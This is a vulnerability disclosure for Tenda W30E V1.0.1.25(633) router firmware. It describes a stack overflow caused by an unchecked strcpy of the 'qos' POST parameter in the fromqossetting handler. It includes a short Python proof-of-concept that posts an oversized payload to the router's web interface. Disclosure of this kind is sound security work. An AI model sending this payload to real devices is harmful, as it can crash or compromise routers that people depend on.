 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `qos` parameter from a POST request. The statement `v1 = strcpy(dest, src);` leads to a buffer overflow. The user-supplied `qos` can exceed the capacity of the `dest` array, thus triggering this security vulnerability.

![image-20240409110218342](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409110218342.png)

![image-20240409110338589](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409110338589.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/fromqossetting"
payload = b"a"*1000

data = {"op":"aaa","qos": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409103000348](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409103000348.png)